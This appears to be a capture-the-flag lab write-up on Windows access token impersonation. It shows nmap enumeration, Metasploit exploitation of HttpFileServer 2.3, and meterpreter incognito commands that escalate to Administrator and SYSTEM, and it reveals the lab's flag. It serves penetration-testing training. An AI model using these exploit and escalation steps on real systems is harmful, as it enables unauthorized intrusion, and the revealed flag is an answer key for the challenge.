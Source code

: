 # 🔬Access Token

## Lab 1

>  🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
>  - Target IP: `10.4.22.75`
>  - **Access Token impersonation** 

### Enumeration

```bash
nmap 10.4.22.75
```

```bash
PORT      STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.22.75
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

- Without using `nmap`, the `http` server version can be checked in a browser by opening the link
  - `http://10.4.22.75/`

### Exploitation

```bash
searchsploit hfs
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.22.75
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 3640
    [*] Migrating from 1692 to 3640...
    [-] core_migrate: Operation failed: Access is denied.

getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
# LOCAL SERVICE account is by default unprivileged

getprivs
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege
```

- This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation

#### Access Token Impersonation

```bash
load incognito
# if the session dies, run the exploit again
```

```bash
list_tokens -u

    Delegation Tokens Available # Interactive Logon
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available # Non-Interactive Logon
    ========================================
    No tokens available
```

![incognito Meterpreter module](.gitbook/assets/image-20230317130902280.png)

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator
getprivs
	[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
pgrep explorer
migrate 3640

getprivs
```

![Access Token Impersonation](.gitbook/assets/image-20230317131313929.png)

- Listing tokens with this account, there can be additional available tokens

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1

    Impersonation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    NT AUTHORITY\NETWORK SERVICE
```

- `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

- In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
- Get the flag of the lab:

```
cd C:\\Users\\Administrator\\Desktop\\
```



<details>
<summary>Reveal Flag: 🚩</summary>



`x28c832a39730b7d46d6c38f1ea18e12`

![](.gitbook/assets/image-20230317132422697.png)

</details>

------

